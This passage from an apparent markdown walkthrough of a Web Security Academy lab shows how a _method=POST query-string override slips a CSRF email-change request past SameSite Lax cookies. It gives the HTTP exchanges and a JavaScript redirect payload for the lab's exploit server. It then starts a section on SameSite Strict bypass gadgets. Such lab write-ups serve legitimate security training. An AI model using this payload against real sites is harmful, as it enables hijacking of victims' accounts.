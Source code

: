 ```
HTTP/2 405 Method Not Allowed
Allow: POST

"Method Not Allowed"
```

Try overriding the method by adding the `_method` parameter to the query string:

```
GET /my-account/change-email?email=foo%40bar.com&_method=POST HTTP/2
```

The request seems to have been accepted by the server:

```
HTTP/2 302 Found
Location: /my-account?id=wiener
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

In the browser, go to the account page and confirm that your email address has changed:

```
# My Account
Your username is: wiener
Your email is: foo@bar.com
``` 

In the browser click "Go to exploit server" and paste the following HTML template in the "Body" section:

```
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

It induces the viewer's browser to issue the malicious `GET` request with a `_method` override and `email` as query parameters. Click "Store" and then click "View exploit". It will redirect you to the `/my-account` page where your email should be changed to `pwned@web-security-academy.net`. This means the exploit works.

Change the email address to the exploit back to `foo@bar.com` and click "Deliver exploit to victim" to solve the lab.

> NOTE: Check out [walkthrough](csrf_lab06_zaproxy.md) of this lab in OWASP Zed Attack Proxy

## Bypassing SameSite restrictions using on-site gadgets

When a cookie is marked with `SameSite=Strict` attribute, browsers exclude it from all cross-site requests. However, you might still be able to bypass this restriction by finding a mechanism --- often called a "gadget" --- that triggers a follow-up request within the same site. 

A common example of such a gadget is a client-side redirect that builds the destination URL using input controlled by the attacker, such as query parameters. For relevant examples, refer to the section on DOM-based open redirection. 

